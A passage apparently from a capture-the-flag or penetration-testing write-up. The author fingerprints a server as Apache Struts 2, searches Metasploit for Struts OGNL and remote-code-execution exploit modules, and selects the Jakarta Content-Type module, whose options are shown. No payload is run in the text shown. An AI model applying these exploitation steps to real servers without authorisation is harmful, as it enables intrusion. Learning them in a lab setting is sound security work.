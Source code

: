 Googling for the terms `apache` and `showcase.action` confirms that the server is probably running Struts 2.

Let's find an exploit.

~~~
$ msfconsole -q 
msf5 > search struts2

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/struts2_code_exec_showcase    2017-07-07       excellent  Yes    Apache Struts 2 Struts 1 Plugin Showcase OGNL Code Execution
   1  exploit/multi/http/struts2_content_type_ognl     2017-03-07       excellent  Yes    Apache Struts Jakarta Multipart Parser OGNL Injection
   2  exploit/multi/http/struts2_namespace_ognl        2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3  exploit/multi/http/struts2_rest_xstream          2017-09-05       excellent  Yes    Apache Struts 2 REST Plugin XStream RCE
   4  exploit/multi/http/struts_code_exec_classloader  2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   5  exploit/multi/http/struts_code_exec_parameters   2011-10-01       excellent  Yes    Apache Struts ParametersInterceptor Remote Code Execution
   6  exploit/multi/http/struts_dev_mode               2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
~~~

I tried exploit #0 (`exploit/multi/http/struts2_code_exec_showcase`) but it did not work. I then continued with #1 (`exploit/multi/http/struts2_content_type_ognl`). Let's see the options:

~~~
msf5 > use 1
msf5 exploit(multi/http/struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting     Required  Description
   ----       ---------------     --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080                yes       The target port (TCP)
   SSL        false               no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /struts2-showcase/  yes       The path to a struts application action
   VHOST                          no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Universal
~~~
